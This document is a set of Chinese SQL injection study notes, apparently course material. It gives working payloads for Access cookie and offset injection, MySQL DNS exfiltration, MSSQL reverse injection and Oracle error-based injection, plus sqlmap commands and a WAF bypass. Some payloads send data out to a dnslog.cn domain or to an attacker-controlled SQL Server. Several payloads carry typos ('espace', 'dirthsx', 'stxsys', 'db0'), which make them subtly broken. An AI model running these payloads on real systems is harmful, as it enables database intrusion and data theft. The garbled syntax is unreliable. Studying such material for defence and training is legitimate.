 # Access注入   cookie注入
当get和post传参被拦截的时候就可以利用cookie注入
    当cookie可以被执行时说明有cookie注入
    但是cookie值后面必须是url编格式才会执行
1. 通过burp修改
    cookie    asdsafasasfasfsafa id=171+and+1%3d1这种的才会执行
2. 通过浏览器f12里面的cookie直接添加

3. 通过浏览器f12里面的控制台输入js语句来修改
    document.cookie="id=171"+espace()
    如：
    document.cookie="id="+espace(171 and 1 = 1)
    document.cookie="id="+espace(171 and order by 10)
    document.cookie="id="+espace(171 and select 1,2,3,4,5,6,7,8,9,10 from admin)
因为Access数据表必须接表名才会执行  Access整个就一个没有名字的库  不知道表名怎么办   只能靠猜
    常见的一些表名：admin user news job ···
    也可以利用这个函数：and exists(select * from 表名)     
    document.cookie="id="+espace(171 and exists(select * from admin))来进行尝试
    如果还不行就爆破  --->   抓包   --->   添加到intreder   --->   选中admin   -->   进行爆破
    当返回的长度看不出来的时候可以先打开一个界面，里面找一个数据(英文单词)然后再options里面Grep-Match把匹配到的值clear把刚才那个数据给添加进去就会发现再次爆破时有这个数据的就会打勾方便很多

4. sqlmap跑cookie注入
    python sqlmap.py -u "有cookie注入的链接(必须加双引号，锁死)" --cookie "id=171(里面这个值也锁死)" --level 2
    还可以通过抓包来跑 --->  修改原本链接把id=···这些东西删了，然后再cookie后面加上刚删除的东西 最后在这些值后面加上*保存到sqlmap对应的文本中之后就可以通过sqlmap来跑
    python sqlmap.py  --flush-session -r x.txt (--flush-session是忽略缓存，当两个sqlmap再跑是无法刷新会话)

# Access偏移注入
当无法查询表明的情况下可以去 [强行爆破]
当知道了表名不知道字段名的情况下可以尝试用 [偏移注入] 
1. 明白admin.* = * 
    select * from admin  <===>  select admin.* from admin
    
    select * from admin union select user.* from user(想要查询user表里面的数据但不知道字段名可以尝试用user.*的方法，但前提是必须让前面表的字段名大于后面表的字段名不然查不出数据)
2. 注入步骤
    1. 判断注入点
    2. order by 判断字段数
    3. 判断表名
    4. 联合查询
    5. 获取表中数据
    6. 开始偏移注入
3. Access数据库模拟limit 0,1 1,1
    union select 1,2,3,4,5,6,7,8,9,0 from admin;
    union select 1,2,3,4,5,admin.* from admin;
    union select top 1 admin.* from order by 1 desc;   //   这里的top手机在admin表中一次性查询几条语句，而后面的order by 1 desc是倒叙排列
    document.cookie="id="+escape("171 union select 172,2,3,4,5,6,7,8,9,0 from admin")  --- 优先执行id=171
    document.cookie="id="+escape("171 union select 172,2,3,4,5,6,7,8,9,0 from admin order by 1 desc")  ---   优先执行172因为order by 1 desc是倒序排列不会优先执行id=数值小的而是执行数值大的
4. 做题  -->    不一定在同一个界面出现多个漏洞   要在每个页面尝试

# mysql DNS注入
某些无法直接利用漏洞获得回显的情况下，但是目标可以发起请求在这个时候可以通过DNSLog百姓奥那个要获得的数据外带出来
对于sql盲注常见的方法就是二分猜，这样的方法麻烦，还很容易因为数据请求过高被ban  (就是一些盲注   延时盲注  变成显错注入)
所以可以将select到的数据发送给一个url，利用DNS解析产生的记录日志来查看数据
1. select load_file('')  
    支持远程共享文件
2. load_file()函数
    1. 读取文件并返回文件里面的内容，但有使用此函数文件必须位于服务器主机上，必须指定完整的路径文件，问且必须有FILE权限，该文件内容必须小于max_allowed_packet(限制数据包大小，默认1mb)，如何该文件或者路径不对会返回null
    2. 该功能不是默认开启需要在mysql配置文件中加入"secure_file_priv="
3. UNC路径
    类似\\servername\sharename格式    其中servername是服务器名sharename是共享资源的名称
4. dnslog.cn
    and (select load_file('//',(select database()),'.通过dnslog.cn查询到的域名/随便写名字'))
5. 简单的waf绕过
    信任欺骗：服务器会认为txt文件不会对网站造成影响，所以txt文件是在信任名单里面，但是如果该目录下没有1.txt文件就会往回查看index.php文件就可以利用1.txt?id=1进行注入(前提是id没有任何防护)
    如：
    index.php/1.txt?id = 1 and (select load_file(concat('//',(select database()),'.dnslog查询到的域名/随便写'))) -- qwe
    index.php/1.txt?id = 1 and (select load_file(concat('//',(select database()),'.1h0kmx.dnslog.cn/abc'))) -- qwe

# MSSQL注入——回显注入   
MSSSQL  ==   Sql Server
1. 搭建一个MSSQL环境
https://my.gearhost.com/    虚拟主机
https://bccto.me/           十分钟邮箱
通过navicat连接SQL Server数据库     填写主机名(就是服务器地址)   注册用户名    密码     之后就连接上了
2. 测试是否有注入点
'   试试特殊字符是否报错
order by n  来判断是否存在注入
    union select 1,2,3(这只是在mysql数据库中执行)
union all select null,null,null(在SQL server数据库中测试显错位必须又字符要求，因为不知道是什么格式的字符所以填写null类型)
3. 注入语句
select * from dbo.sysdatabases   查询数据库 (但是SQL server数据库对库名要求不是很严格可以越过库命查表)
select * from db0.sysobjects where xtype = 'U'    查询当前数据库的表(后面家的xtype='U'是用户创建的表)
当查字段名时，需要把刚才查询到的表明中的id记录下来
select * from dbo.syscolumns where id = 刚才记录下来的  (如果不添加 id=刚才记录的值 会查出很多字段，想找到想要的字段很费时)
select null,刚才查询到的字段,null from 表     查数据

 
# MSSQL注入——反弹注入   opendatasource
明明有sql注入点却无法进行注入，注入工具猜解速度很慢，错误提示信息关闭，等等，比较好解决的办法就是反弹注入
反弹注入就是  --->  目标站点将你想要的数据插入到你的数据库
1. 别人能否访问到
    是否在公网          需要用到虚拟主机     ---->    SQL server数据库
2. insert into 
                opendatasource('sqloledb',          # 'sqloledb'  是一种访问方式
                'server=连接数据库的地址,端口;uid=用户名;pwd=密码;database=数据库名')
                .数据库.dbo.表名 select * from admin 
?id = 1 ' ; insert into opendata(
'sqloledb',
'server=地址,端口;uid=名字;pwd=密码;database=库名'
 ).库名.dbo.表名 select * from dbo.sysobject where xtype='U' -- qwe
3. 需要满足的条件   
    必须字段相同    select *   * 和前面库名.dbo.表的表名字段数一定要相同
4. 堆叠注入
    1. 可以执行多条数据库语句
    2. 传参 ; 能其效果并且执行后面的语句
    3. id=1' ; order by 3 -- qwe   可以执行说明存在堆叠注入

# Oracle注入——显错注入
强调用户不强调库的概念    一个用户    ----->    一个库
回显点    回显点的类型相同  order by有数据   --->   显错注入
1. 特性：Dual是一个实表   select * from dual  会返回一个X列名为DUMMY
Dual的存在是为了满足严谨的语法
2. 语句
select * from v$version         查询版本号
select user from dual           查询当前用户名
select * from all_tables        查询全部的数据表
select * from user_tables       查当前用户用户(库)所在的表
select * from user_tab_columns  查询当前用户下所有表的字段
3. 类似limit 0,1  1,1 的
select * from user_tab_columns where rownum = 1     输出一条数据
select * from user_tab_columns where rownum < 3     输出两条数据
select * from user_tab_columns where rownum = 1 and column_name <> 'ID'     这就会跳过id输出下一个字段
select * from user_tab_columns where rownum = 1 and column_name <> 'ID' and column_name <> 'USER_NAME'      跳过两个字段，以此类推

# Oracle注入——报错注入
因为数据类型的原因显错注入变得很难  学会忽略数据类型的的注入方法
1. 适用于
盲注   没有回显点     --->    报错注入
是数据库出错，强行丢出一个致命性错误，这个错误信息内容我们可以控制  --->   得到数据
2. 语句
ctxsys.dirthsx.sn(user,(select banner from v$version where rownum = 1))          查版本
ctxsys.dirthsx.sn(user,(select banner from sys.v_$version where rownum = 1))     查版本
stxsys.dirthsx.sn(1,(select table_name from user_tables where rownum = 1 and table_name <> 'ID'))   查表明
ctxsys.dirthsx.sn(1,(select column_name from user_tab_columns where table_name = 'ADMIN' and rownum = 1))   查字段名
stxsys.dirthsx.sn(1,(select flag from admin where rownum = 1))              查数据